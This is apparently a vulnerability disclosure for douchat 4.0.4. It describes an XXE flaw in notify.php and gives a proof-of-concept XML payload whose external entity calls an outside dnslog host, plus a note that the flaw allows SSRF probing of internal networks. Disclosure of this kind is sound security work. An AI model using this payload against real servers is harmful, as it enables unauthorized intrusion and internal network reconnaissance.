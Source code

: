 # douchat
## xxe
### Code analysis
Vulnerability code is located `douchat-4.0.4\Data\notify.php` 10 line.
![](https://github.com/AvaterXXX/douchat/blob/master/image/1.png)
Simplexml_load_string function can parse XML,thus forming an XXE vulnerability

### Vulnerability display
Build a POC：
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://3dy5gu.ceye.io/xxe_test">
%remote;]>
<root/>
```
Used dnslog here
POST of POC
![](https://github.com/AvaterXXX/douchat/blob/master/image/2.png)
Dnslog has received the display
![](https://github.com/AvaterXXX/douchat/blob/master/image/3-1.png)

The covered place is the real IP address of the target server.
### XXE is accompanied by an SSRF vulnerability for intranet detection.For intranet detection, simply change the address to the intranet IP and port. If it is enabled, it will be displayed.

